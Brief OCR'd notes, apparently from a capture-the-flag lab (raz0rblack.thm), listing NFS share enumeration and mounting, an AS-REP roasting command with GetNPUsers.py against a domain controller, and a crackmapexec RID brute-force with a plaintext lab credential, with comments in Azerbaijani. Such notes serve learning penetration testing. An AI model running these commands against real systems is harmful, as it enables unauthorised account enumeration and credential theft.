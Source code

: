 showmount -e $IP

mount -t nfs $IP:/mnt/share /mnt/new -o nolock

showmount -e ip   - Using showmount to display the mounted file share.
mount -t nfs ip:/users ./mnt/ - ip and users is shared folder

python GetNPUsers.py raz0rblack.thm/ -usersfile /tmp/user.txt -dc-ip 10.10.161.127  - bruteforce atak edib useri tapir hashi ile birge

crackmapexec smb raz0rblack.thm -u twilliams -p roastpotatoes --rid-brute - bturforce atak edir butun userleri tapmaq ucun eger userin IP$ accesi varsa
